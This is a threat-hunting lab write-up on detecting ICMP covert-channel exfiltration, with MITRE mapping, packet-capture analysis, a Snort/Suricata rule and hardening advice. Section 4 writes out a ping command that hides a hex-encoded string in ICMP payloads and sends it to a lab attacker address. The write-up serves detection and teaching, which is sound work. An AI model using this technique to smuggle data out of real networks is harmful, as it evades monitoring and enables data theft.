


# 🕵️‍♂️ Network Forensics Analysis: Detecting ICMP Covert Channels (ICMP Tunneling)

**Simulated Role:** SOC Analyst L2 / Threat Hunter  
**Tags:** `Network Forensics`, `Wireshark`, `Threat Hunting`, `Suricata/Snort`, `MITRE ATT&CK`

---

## 📋 Table of Contents
1. [Executive Summary](#1-executive-summary)
2. [Threat Intelligence Context](#2-threat-intelligence-context)
3. [Lab Architecture](#3-lab-architecture)
4. [Execution Methodology (Kill Chain)](#4-execution-methodology-kill-chain)
5. [Network Forensics Analysis](#5-network-forensics-analysis)
   - [5.1. Volumetric Evasion](#51-volumetric-evasion)
   - [5.2. Baseline Establishment (Legitimate Traffic)](#52-baseline-establishment-legitimate-traffic)
   - [5.3. Deep Packet Inspection (DPI) and Evidence Extraction](#53-deep-packet-inspection-dpi-and-evidence-extraction)
6. [Detection Engineering](#6-detection-engineering)
7. [Hardening & Remediation Recommendations](#7-hardening--remediation-recommendations)

---

## 1. Executive Summary

During a controlled simulation in an isolated lab environment, a data exfiltration technique using the ICMP (Internet Control Message Protocol) was executed and analyzed. The objective of this exercise is to demonstrate how adversaries use native system tools (*Living off the Land*) to evade traditional perimeter security controls (L3/L4 Firewalls) and how security analysts can detect these anomalies through Deep Packet Inspection (DPI).

**MITRE ATT&CK Mapping:**
* **Tactic:** Exfiltration (TA0010)
* **Technique:** Exfiltration Over Alternative Protocol (T1048)
* **Sub-technique:** Exfiltration Over Unencrypted Non-C2 Protocol (T1048.003)

---

## 2. Threat Intelligence Context

ICMP traffic is often exempt from deep inspection in many corporate networks, as it is widely considered benign diagnostic traffic (ping). Advanced Persistent Threats (APTs) exploit this "blind spot" by altering the payload (*Data* field) of ICMP *Echo Request* (Type 8) packets to embed confidential data. By not using common application-layer protocols like HTTP (port 80) or HTTPS (port 443), this traffic typically bypasses Web Proxies and Data Loss Prevention (DLP) systems.

---

## 3. Lab Architecture

The environment was deployed using virtualization with strict network segmentation (Isolated NAT Network) to prevent any traffic leakage to the physical host environment.

| Role | Operating System | Simulated IP Address | Tools Used |
| :--- | :--- | :--- | :--- |
| **Attacker / Sensor** | Kali Linux 2026.1 | `192.168.58.131` | Wireshark, tcpdump |
| **Victim Endpoint** | Ubuntu Server 24.04 LTS | `192.168.58.135` | `ping` (Native binary) |
| **Network Segment** | VMware Virtual Switch (VMnet8)| `192.168.58.0/24` | Wireshark Promiscuous Mode Enabled |

---

## 4. Execution Methodology (Kill Chain)

The attack was performed without installing any third-party malware, adhering strictly to a **Living off the Land (LotL)** philosophy. 

The native `ping` binary of the victim's Linux OS was utilized. The `-p` (pattern) parameter was used to inject a hexadecimal data stream equivalent to the string `CONFIDENCIAL` (Hex: `434f4e464944454e4349414c`).

**Injection and exfiltration command:**
```bash
ping -c 1 -p 434f4e464944454e4349414c 192.168.58.131
```

---

## 5. Network Forensics Analysis

The traffic was captured and stored in the `case01_icmp_exfil.pcapng` file (available in the `/data` folder of this repository). The comparative analysis yielded the following critical findings:

### 5.1. Volumetric Evasion
At first glance, the anomalous packet maintains the standard length of a Linux *Echo Request* (**98 bytes on wire / 74 bytes packet length**). This means that alerts based on volume anomalies or packet size thresholds would not have been triggered.

### 5.2. Baseline Establishment (Legitimate Traffic)
To identify the anomaly, a standard ICMP packet generated by the operating system was first analyzed. As seen in the following capture, the *Data* field is filled with a predictable, incremental sequence lacking any meaning (low entropy), used solely to reach the protocol's minimum size.


*(Image 1: Legitimate ICMP packet showing the default Linux payload in the hexadecimal dump)*

### 5.3. Deep Packet Inspection (DPI) and Evidence Extraction
By contrasting the baseline with the suspicious packet (isolated using the `icmp` display filter in Wireshark), it was observed that the default sequence had been completely replaced. 

**Exfiltration Evidence:**
The following screenshot shows how the Hex/ASCII dump of the altered packet reveals the injected pattern `...IDENCIALCONFIDENCIAL...`, proving the exfiltration tunnel in plaintext.


*(Image 2: Modified ICMP packet revealing the exfiltrated text string)*

---

## 6. Detection Engineering

To automate the detection of this attack vector in a Security Operations Center (SOC), the following rule was developed for Network-based Intrusion Detection Systems (NIDS) such as Snort or Suricata.

```snort
alert icmp $HOME_NET any -> $EXTERNAL_NET any (msg:"SOC_ALERT - Possible ICMP Tunneling / Data Exfiltration (MITRE T1048.003)"; itype:8; content:"CONFIDENCIAL"; classtype:policy-violation; sid:1000001; rev:1;)
```

**Technical justification for the rule:**
* `itype:8`: Focuses inspection solely on outbound packets (Echo Requests), reducing the firewall's CPU overhead.
* `content:"CONFIDENCIAL"`: Executes string matching directly on the payload, regardless of the underlying port.

---

## 7. Hardening & Remediation Recommendations

Based on the findings of this incident, the following mitigation measures are proposed for production networks:

1.  **Perimeter Blocking:** Deny outbound ICMP traffic (`Echo Request`) from critical servers (e.g., Database servers) to the Internet by default.
2.  **Proxy Enforcement:** Force all outbound organizational traffic through a Web Proxy with TLS termination capabilities, effectively blocking alternative application-layer protocols.
3.  **Entropy Analysis:** Configure Network Security Monitoring (NSM) tools like Zeek (Bro) IDS to monitor the entropy of ICMP payloads. Standard ping traffic has low entropy, whereas encrypted or exfiltrated data presents a mathematically higher entropy.
